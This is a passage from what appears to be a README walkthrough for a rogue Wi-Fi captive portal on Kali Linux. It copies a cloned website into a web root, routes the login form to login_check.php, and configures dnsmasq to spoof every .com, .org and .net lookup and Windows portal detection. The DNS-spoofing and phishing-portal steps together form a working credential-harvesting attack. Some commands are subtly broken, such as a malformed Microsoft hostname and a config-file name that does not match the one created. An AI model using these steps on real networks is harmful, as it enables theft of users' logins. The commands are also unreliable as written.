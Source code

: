 ```bash
sudo cp -r ./www.website.com/assets /var/www/html/portal
```

### 8. Set Up the Login Page

Configure the login page to redirect to `login_check.php`:

```bash
sudo mousepad /var/www/html/portal/login_check.php
```

### 9. Assign an IP address and activate the interface:

  ```bash
  sudo ip addr add 192.168.87.1/24 dev wlan0
  sudo ip link set wlan0 up
  ```

### 10. Ensure dnsmasq is installed:

```bash
sudo apt install dnsmasq
```

### 11. Create the DHCP config file at `/home/kali/dnsmasq.conf` and add spoofing entries for top-level domains:

```bash
address=/com/192.168.0.1
address=/org/192.168.0.1
address=/net/192.168.0.1
```

### 12. For Windows 7 & 10 captive portal detection, add:

```bash
address=/dns.msftncsicom/131.107.255.255  
```

### 13. Start dnsmasq with the config file:

```bash
sudo dnsmasq –conf-file=dnsmasq.com
```

### 14. Verify if dnsmasq is running successfully:

```bash
sudo tail /var/log/syslog | grep dnsmasq
```

### 15. Install nftables:

```bash
sudo apt install nftables
```
